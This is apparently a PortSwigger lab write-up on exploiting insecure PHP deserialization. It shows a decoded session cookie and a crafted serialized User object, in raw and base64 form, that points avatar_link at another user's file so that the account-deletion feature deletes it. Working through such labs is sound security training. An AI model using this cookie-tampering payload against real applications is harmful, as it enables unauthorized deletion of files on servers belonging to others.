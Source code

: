 
# 13 - Using application functionality to exploit insecure deserialization

This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

You also have access to a backup account: gregg:rosebud

---------------------------------------------

References:

- https://portswigger.net/web-security/deserialization

- https://portswigger.net/web-security/deserialization/exploiting





![img](images/13%20-%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/1.png)
![img](images/13%20-%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/2.png)


---------------------------------------------

Generated link: https://0a1a00ed03d73b06805d1790005000f1.web-security-academy.net

After logging in, the session contains a serialized object:



![img](images/13%20-%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/3.png)

Decoding it as url and then as base64 we can read the serialized object:



![img](images/13%20-%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/4.png)

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"nkp0la3e72b8bin6215t80l8l7qkjv2v";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```



![img](images/13%20-%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/5.png)

Object of class “User” has 3 parameters:
- username
- access_token
- avatar_link


Burp detects this as well:



![img](images/13%20-%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/6.png)

Trying to upload PHP as avatar:



![img](images/13%20-%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/7.png)

Trying to change the user in the session object to ricardo:

```
O:4:"User":3:{s:8:"username";s:7:"ricardo";s:12:"access_token";s:32:"ut8z43bk6jtuk09nn9ahkzax9okpyr6l";s:11:"avatar_link";s:18:"users/gregg/avatar";}
```



![img](images/13%20-%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/8.png)

We want to delete /home/carlos/morale.txt file and the avatar image is probably deleted when deleting the account, so we will change the object to:

```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"ut8z43bk6jtuk09nn9ahkzax9okpyr6l";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

Encoded:

```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6InV0OHo0M2JrNmp0dWswOW5uOWFoa3pheDlva3B5cjZsIjtzOjExOiJhdmF0YXJfbGluayI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
```

I change the session object in the 2 requests generated when deleting the acount:



![img](images/13%20-%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/9.png)



![img](images/13%20-%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization/10.png)